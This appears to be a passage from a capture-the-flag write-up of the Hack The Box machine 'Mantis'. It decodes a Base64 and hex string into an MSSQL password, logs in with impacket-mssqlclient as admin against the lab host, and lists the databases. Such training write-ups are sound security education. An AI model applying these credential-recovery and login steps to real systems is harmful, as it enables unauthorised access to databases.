 ![hash.png](../assets/mantis_assets/hash.png)

Looks like this was Base64 encoded and we'll also need to decode from hex too:

```text
┌──(ryan㉿kali)-[~/HTB/Mantis]
└─$ echo "NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx" | base64 -d              
6d2424716c5f53405f504073735730726421                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Mantis]
└─$ echo "6d2424716c5f53405f504073735730726421" | xxd -r -p            
m$$ql_S@_P@ssW0rd!                                                                    
```

### Exploitation

Cool, this seems to be a mssql password. Based off the list found in dev_notes, we also know there is an admin user too. 

Lets try the credentials using impacket-mssqlclient:

```text
┌──(ryan㉿kali)-[~/HTB/Mantis]
└─$ impacket-mssqlclient admin:'m$$ql_S@_P@ssW0rd!'@10.10.10.52
```

```text
SQL> SELECT name, database_id, create_date FROM sys.databases;
name                                                                                                                               database_id   create_date   

--------------------------------------------------------------------------------------------------------------------------------   -----------   -----------   

master                                                                                                                                       1   2003-04-08 09:13:36   

tempdb                                                                                                                                       2   2023-08-22 17:11:57   

model                                                                                                                                        3   2003-04-08 09:13:36   

msdb                                                                                                                                         4   2014-02-20 20:49:38   

orcharddb                                                                                                                                    5   2017-09-01 09:31:52
```
